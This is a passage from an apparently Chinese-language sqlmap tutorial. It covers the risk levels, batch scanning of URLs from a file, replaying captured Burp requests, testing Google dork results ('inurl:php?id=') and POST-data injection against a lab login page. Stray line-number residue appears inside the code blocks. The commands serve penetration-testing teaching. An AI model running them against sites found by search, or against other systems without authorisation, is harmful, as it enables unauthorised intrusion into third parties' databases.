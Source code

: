 ##### 3、风险等级

```
参数：--risk

共有四个风险等级
1、会测试大部分测试语句(默认)
2、会增加基于事件的测试语句
3、会增加OR语句的sql注入测试
123456
```

##### 4、批量测试多个注入点

```
sqlmap -m c:\url.txt
sqlmap -m c:\url.txt --batch
12
```

##### 5、获取http请求注入

burpsite抓包

```
参数：-r

sqlmap可以从一个文本文件中获取http请求，这样可以跳过设置一些其他参数(比如cookie、post数据)

sqlmap -r c:\request.txt

常用：post/搜索注入/http头注入/登陆后的注入点
1234567
```

##### 6、处理Google搜索结果

边采集边检测

```
参数：-g

sqlmap可以测试注入Google的搜索结果中的GET参数(只测试100个结果)

sqlmap -g "inurl:php?id="
12345
```

##### 7、以POST方式提交参数

```
参数：--data

把数据以post方式提交

sqlmap -u "http://192.168.226.130:86/login.php" --data "username=123&password=123"
12345
```
